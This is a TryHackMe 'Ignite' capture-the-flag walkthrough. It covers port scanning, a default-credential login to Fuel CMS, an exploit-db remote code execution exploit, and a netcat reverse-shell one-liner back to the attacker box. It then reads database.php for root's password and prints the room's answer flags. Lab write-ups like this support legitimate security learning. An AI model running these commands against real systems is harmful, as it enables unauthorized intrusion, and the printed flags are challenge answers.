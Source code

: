 
# Ignite CTF Walkthrough

Ignite is a vulnerable new start up with issues in their web server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/ignite<br />
THM Difficulty: Easy<br />
My Difficulty: Easy<br />
Target IP: 10.10.105.97<br />
AttackBox IP: 10.10.189.128<br />
</i>

# Recon

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```rustscan -a 10.10.105.97```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flag -sV to find the service versions on the open port.<br />
```nmap -sV -p80 10.10.105.97```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT2.png?raw=true)<br />
We have only found one service, this CTF may just be a webservice. Let's try to find some vulnerabilities!

## HTTP Service Recon

Let's load up our web browser and head over to http://10.10.105.97/<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT3.png?raw=true)<br />
Straight away we see the name "Fuel CMS" and a version "Version 1.4". Let's see what else we can find.
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT4.png?raw=true)<br />
Further down the webpage we see the link to an admin page and a default login, let's try logging in!
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT5.png?raw=true)<br />
Success! We've managed to login to the admin panel with the default username and password. Let's check the search engines for Fuel CMS 1.4 to see if we can find any vulnerabilities.<br />

Another hit! We see an exploit-db result that affects Fuel CMS versions 1.41 and below. CVE-2018-16763, remote Code Execution.
Now we have two ways we can go, using the exploit we found or to try upload a reverse shell on the admin panel.<br />

## Exploiting Fuel CMS 1.41
We're going to try the first way... Using the exploit we found! Why not?<br />
First let's download the exploit onto our AttackBox - https://www.exploit-db.com/raw/50477<br />
I downloaded it and named it exploit.py, let's run it and see if we can get a shell! This exploit requires no additional configuration.<br />
python exploit.py<br />
It tells us we need to add the -u flag with the URL! Let's go.<br />
python exploit.py -u http://10.10.105.97<br />
If the exploit was succesful you will be asked to enter a command like I've done below<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT6.png?raw=true)<br />
It looks like the exploit executes PHP system commands, let's get a reverse shell up for more functionality. To do this 
we'll need to firstly open up a listener on our AttackBox, then we will send the PHP system command to spawn a reverse shell to that listener.<br />
On our AttackBox:<br />
nc -lvnp 8888<br />
<br />
On our target with the PHP system commands:<br />
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.189.128 8888 >/tmp/f<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT7.png?raw=true)<br />
Now we have our reverse shell opened! Let's have a look in /home<br />
cd /home<br />
ls<br />
We see another folder www-data, after checking inside the folder we find a flag.txt, this must be our User flag!<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT8.png?raw=true)<br />
After having a look around it looks like we'll need to escalate our privileges to get any further!<br />

## Privilege Escalation

Let's start looking for ways to escalate our privileges!
uname -a 
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT9.png?raw=true)<br />
4.15.0-45-generic is the version of our kernel, after looking there is an exploit but it requires us to have newuidmap which we do not have.<br />
Let's continue looking...<br />
sudo -l<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT10.png?raw=true)<br />
No luck. I continued searching for a while then went back to see if I had missed something.<br />
After going back to the website I noticed this:
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT11.png?raw=true)<br />
Let's have a look in the directory to see if there is any login information! Now we go back to our shell and use the following commands:<br />
cd /var/www/html/fuel/application/config/<br />
cat database.php<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT13.png?raw=true)<br />
Bingo! We see a login for the user root! Let's try using this password on the target system. First we'll need to get a more stable shell...<br />
We should of done this at the start, whoops! Let's use Python:<br />
python -c 'import pty;pty.spawn("/bin/bash")'<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT14.png?raw=true)<br />
Now we have a more stable shell let's try logging into the account we got from the database.php<br />
su root
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT15.png?raw=true)<br />
After entering the password we're in! Let's find the final flag.<br />
cd /root<br />
cat root.txt<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Ignite/screenshots/SCREENSHOT16.png?raw=true)<br />

## Questions & Answers

Question 1:<br />
**What is the user flag?** 6470e394cbf6dab6a91682cc8585059b<br />

Question 2:<br />
**What is the root flag?** b9bbcb33e11b80be759c4e844862482d<br />

### Farewell, I hope you all enjoyed this write-up!

